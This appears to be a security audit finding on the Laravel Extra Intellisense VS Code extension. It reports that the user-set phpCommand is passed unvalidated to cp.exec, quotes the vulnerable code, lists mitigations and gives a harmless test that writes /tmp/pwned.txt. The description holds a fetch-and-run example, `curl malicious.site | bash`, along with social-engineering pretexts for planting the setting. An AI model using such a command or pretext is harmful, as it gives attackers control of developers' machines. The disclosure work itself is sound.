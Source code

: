 #### 1. Arbitrary Command Execution via `phpCommand` Configuration

- **Description:**
    1. An attacker socially engineers a developer to modify the `LaravelExtraIntellisense.phpCommand` setting in their VS Code configuration.
    2. The attacker provides a malicious command to be executed instead of the legitimate PHP command. For example, instead of `php -r "{code}"`, the attacker could suggest `bash -c "curl malicious.site | bash"`.
    3. The developer, believing it is necessary for the extension to function correctly or being unaware of the security implications, applies the malicious configuration.
    4. When the extension triggers autocompletion, it uses the configured `phpCommand` to execute PHP code on the developer's machine.
    5. Due to the malicious configuration, instead of running PHP code, the attacker's arbitrary command is executed with the privileges of the developer's user.

- **Impact:**
    - **Critical:** Successful exploitation allows the attacker to execute arbitrary commands on the developer's machine. This could lead to:
        - **Data theft:** Access to sensitive files, environment variables, and credentials stored on the developer's machine.
        - **Malware installation:** Installation of backdoors, ransomware, or other malicious software.
        - **Account compromise:** If the developer has access to cloud accounts or internal systems, the attacker could potentially pivot and compromise these accounts.
        - **Supply chain attack:** Injected malware could potentially be included in projects and distributed to end-users.

- **Vulnerability Rank:** Critical

- **Currently Implemented Mitigations:**
    - **Documentation Warning:** The `README.md` file includes a "Security Note" section that warns users about the risks of executing Laravel applications automatically and suggests disabling the extension if sensitive code is present in service providers.
    - **Location:** `README.md` file, in the "Security Note" section.

- **Missing Mitigations:**
    - **Input Validation and Sanitization:** The extension should validate and sanitize the `phpCommand` setting to prevent the execution of arbitrary commands. It should ensure that the command only executes `php` and necessary arguments, disallowing shell commands or other interpreters.
    - **Warning in Settings UI:** When configuring the `phpCommand` setting, the extension should display a clear warning about the security risks associated with modifying this setting and advise users to only use trusted commands.
    - **Restricting Command Execution:** Explore alternative methods for gathering project information that do not involve executing arbitrary PHP code or rely on user-provided commands. If executing PHP code is unavoidable, consider sandboxing or containerizing the execution environment to limit the impact of malicious commands.
    - **Principle of Least Privilege:** The extension should operate with the minimum privileges necessary. Avoid actions that require elevated permissions.

- **Preconditions:**
    - The developer must have the Laravel Extra Intellisense extension installed in VS Code.
    - The developer must be working on a Laravel project.
    - The attacker must successfully socially engineer the developer into setting a malicious `phpCommand` in the extension's configuration. This could be achieved through various methods, such as:
        - **Fake support requests:** Posing as support or community members offering help and suggesting "configuration changes" for better performance or bug fixes.
        - **Misleading tutorials or blog posts:** Creating online content that instructs users to use a malicious `phpCommand` as part of a "recommended setup".
        - **Compromised configuration sharing:** If developers share VS Code configurations, an attacker could inject a malicious `phpCommand` into a shared configuration.

- **Source Code Analysis:**
    - **File:** `src/helpers.ts`
    - **Function:** `runPhp(code: string, description: string|null = null)`
    - **Line:** `let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";`
    - **Line:** `let command = commandTemplate.replace("{code}", code);`
    - **Line:** `cp.exec(command, ...)`

    ```typescript
    static async runPhp(code: string, description: string|null = null) : Promise<string> {
        code = code.replace(/\"/g, "\\\"");
        if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
            code = code.replace(/\$/g, "\\$");
            code = code.replace(/\\\\'/g, '\\\\\\\\\'');
            code = code.replace(/\\\\"/g, '\\\\\\\\\"');
        }
        let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\""; // Vulnerable Line: Retrieves phpCommand from configuration
        let command = commandTemplate.replace("{code}", code); // Vulnerable Line: Constructs command by simple string replacement
        let out = new Promise<string>(function (resolve, error) {
            if (description != null) {
                Helpers.outputChannel?.info("Laravel Extra Intellisense command started: " + description);
            }

            cp.exec(command, // Vulnerable Line: Executes command without validation or sanitization
                { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
                function (err, stdout, stderr) { ... }
            );
        });
        return out;
    }
    ```
    - **Explanation:**
        - The `runPhp` function in `helpers.ts` is responsible for executing PHP code.
        - It retrieves the `phpCommand` from the extension's configuration using `vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand')`.
        - It then constructs the command string by simply replacing the `{code}` placeholder in the `commandTemplate` with the provided `$code`.
        - Finally, it uses `child_process.exec(command, ...)` to execute the constructed command on the system.
        - **Vulnerability:** The `phpCommand` setting is taken directly from user configuration without any validation or sanitization. If a user is tricked into setting a malicious command (e.g., `bash -c "malicious command"`), this command will be executed by `cp.exec` when the extension attempts to run PHP code. The code replacement mechanism is naive and doesn't prevent command injection.

- **Security Test Case:**
    1. **Pre-test setup:**
        - Install the Laravel Extra Intellisense extension in VS Code.
        - Open a Laravel project in VS Code.
        - Ensure the extension is activated.
    2. **Modify User Settings:**
        - Open VS Code settings (File -> Preferences -> Settings, or Code -> Settings -> Settings on macOS).
        - Switch to the "Workspace" settings tab.
        - Search for "Laravel Extra Intellisense" or navigate to "Extensions" -> "Laravel Extra Intellisense".
        - Locate the `LaravelExtraIntellisense: Php Command` setting.
        - Change the default value (e.g., `php -r "{code}"`) to a malicious command, such as:
            ```bash
            bash -c "echo 'VULNERABILITY_DEMOSTRATION' > /tmp/pwned.txt"
            ```
            or for Windows:
            ```bash
            cmd /c "echo VULNERABILITY_DEMOSTRATION > %TEMP%\\pwned.txt"
            ```
        - Save the settings.
    3. **Trigger Autocompletion:**
        - Open any PHP or Blade file in your Laravel project.
        - Trigger any autocompletion feature of the extension, for example, by typing `route('` or `config('` in a PHP file, or `@lang('` in a Blade file. This will force the extension to execute PHP code using the malicious `phpCommand`.
    4. **Verify Command Execution:**
        - After triggering autocompletion, check if the malicious command was executed.
        - For the example commands above, check if the file `/tmp/pwned.txt` (Linux/macOS) or `%TEMP%\\pwned.txt` (Windows) was created and contains the text "VULNERABILITY_DEMOSTRATION".
    5. **Expected Result:**
        - The file `/tmp/pwned.txt` or `%TEMP%\\pwned.txt` should be created with the expected content, demonstrating that the arbitrary command provided in the `phpCommand` setting was successfully executed.
    6. **Post-test cleanup:**
        - Revert the `LaravelExtraIntellisense: Php Command` setting back to its default value (e.g., `php -r "{code}"`).
        - Delete the created `pwned.txt` file from `/tmp` or `%TEMP%`.
